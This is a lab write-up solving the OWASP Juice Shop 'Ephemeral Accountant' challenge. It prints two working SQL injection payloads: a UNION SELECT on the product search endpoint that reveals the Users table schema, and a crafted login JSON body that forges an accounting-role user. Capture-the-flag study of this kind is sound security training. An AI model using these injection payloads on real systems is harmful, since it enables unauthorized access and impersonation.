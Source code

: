 # Ephemeral Accountant

![image](../../../Assets/8-1.png)

## Clue provided

1. Try to create the needed user "out of thin air".
2. The user literally needs to be ephemeral as in "lasting for only a short time".
3. Registering normally with the user’s email address will then obviously not solve this challenge. The Juice Shop will not even let you register as acc0unt4nt@juice-sh.op, as this would make the challenge unsolvable for you.
4. Getting the user into the database some other way will also fail to solve this challenge. In case you somehow managed to do so, you need to restart the Juice Shop application in order to wipe the database and make the user disappear again.

## Solution

### Identifying vulnerability

We can find column names by using the following payload:

```
http://127.0.0.1:3000/rest/products/search?q=%27))%20UNION%20SELECT%201,sql,3,4,5,6,7,8,9%20FROM%20sqlite_master%20WHERE%20type=%27table%27%20AND%20name=%27Users%27---
```

![image](../../../Assets/8-2.png)

### Exploiting the vulnerability

We can create a temporary user by intercepting login request and modifying the json body to the following:

```json
{"email":"' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `test123`, 1 AS `isActive`, 12983283 AS `createdAt`, 121211 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--","password":"test"}
```

![image](../../../Assets/8-3.png)

### Result

![image](../../../Assets/8-4.png)